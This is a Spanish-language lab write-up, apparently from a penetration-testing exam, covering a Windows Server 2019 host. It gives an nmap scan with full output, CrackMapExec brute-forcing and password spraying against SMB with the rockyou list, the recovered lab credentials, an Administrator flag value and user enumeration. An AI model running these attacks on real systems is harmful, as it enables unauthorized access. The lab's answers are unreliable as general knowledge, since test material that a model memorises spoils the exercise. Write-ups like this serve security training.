

# Host 4 - 192.168.100.55

Este es el host **dual-homed** (DMZ + red interna): su IP en la DMZ es `192.168.100.55` y será la pieza que usaremos para pivotar hacia la red `192.168.0.0/24`.

Escaneamos esta IP de la siguiente forma:

```sh
nmap -Pn -sS -sV -sC -T4 -p- -O -oN 192.168.100.55.txt 192.168.100.55
```

Y obtenemos lo siguiente:

```sh
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2019 Datacenter 17763 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WINSERVER-03
|   NetBIOS_Domain_Name: WINSERVER-03
|   NetBIOS_Computer_Name: WINSERVER-03
|   DNS_Domain_Name: WINSERVER-03
|   DNS_Computer_Name: WINSERVER-03
|   Product_Version: 10.0.17763
|_  System_Time: 2026-11-21T12:00:40+00:00
| ssl-cert: Subject: commonName=WINSERVER-03
| Not valid before: 2026-07-30T05:06:49
|_Not valid after:  2027-01-29T05:06:49
|_ssl-date: 2026-11-21T12:00:47+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 0E:FF:E2:83:75:1F (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
Network Distance: 1 hop
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2019 Datacenter 17763 (Windows Server 2019 Datacenter 6.3)
|   Computer name: WINSERVER-03
|   NetBIOS computer name: WINSERVER-03\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-11-21T12:00:41+00:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: WINSERVER-03, NetBIOS user: <unknown>, NetBIOS MAC: 0e:ff:e2:83:75:1f (unknown)
| smb2-time: 
|   date: 2026-11-21T12:00:41
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.92 seconds
```

Información recolectada:
- Sistema operativo: Windows Server 2019 Datacenter (build 17763)
- Nombre del computador: WINSERVER-03
- Servicios relevantes: IIS 10.0 (80), SMB (135/139/445), RDP (3389) y WinRM (5985).

El sitio web no muestra contenido explotable (página por defecto de IIS) y SMB no expone nada útil de forma anónima, así que el vector de entrada es por **credenciales**.

## Explotación — password spraying con CrackMapExec

El examen apunta a que la cuenta `mary` es débil, por lo que hacemos fuerza bruta contra SMB:

```sh
crackmapexec smb 192.168.100.55 -u mary -p /usr/share/wordlists/rockyou.txt
```

Obtenemos la credencial:

```
mary:hotmama
```

Continuando con el spraying sobre el resto de cuentas, validamos credenciales adicionales:

```
SMB         192.168.100.55  445    WINSERVER-03     [+] WINSERVER-03\lawrence:computadora 
SMB         192.168.100.55  445    WINSERVER-03     [+] WINSERVER-03\admin:blanca 
```

Resumen de credenciales válidas:

| Usuario  | Contraseña   |
|----------|--------------|
| mary     | hotmama      |
| lawrence | computadora  |
| admin    | blanca       |

## Acceso y flag

El usuario **`admin`** es miembro del grupo local **Administrators**, por lo que es la cuenta que nos da privilegios completos (con `mary` daba `Cannot access file C:\Users\Administrator\flag.txt`).

Accediendo como `admin` leemos la flag del Administrator:

```
C:\Users\Administrator\flag.txt
```

```
e8b75cc5489346afaa839321b4414027
```

## Enumeración de usuarios

```sh
net user
```

```
User accounts for \\WINSERVER-03
-------------------------------------------------------------------------------
admin                    Administrator            DefaultAccount
Guest                    lawrence                 mary
student                  WDAGUtilityAccount
The command completed successfully.
```



## Resumen de la cadena de ataque

```
Nmap → sin vector web/SMB anónimo → password spraying con CrackMapExec
     → mary:hotmama, lawrence:computadora, admin:blanca → admin es Administrador local
     → lectura de C:\Users\Administrator\flag.txt
```

## Lecciones clave

- Cuando no hay vector de software, el **password spraying** con CrackMapExec sobre SMB es la vía rápida.
- Una credencial válida no basta: hay que identificar **cuál** cuenta pertenece a *Administrators* (`admin`) para leer la flag privilegiada.
- WINSERVER-03 es el host **dual-homed**: desde aquí se pivota a la red interna `192.168.0.0/24`.
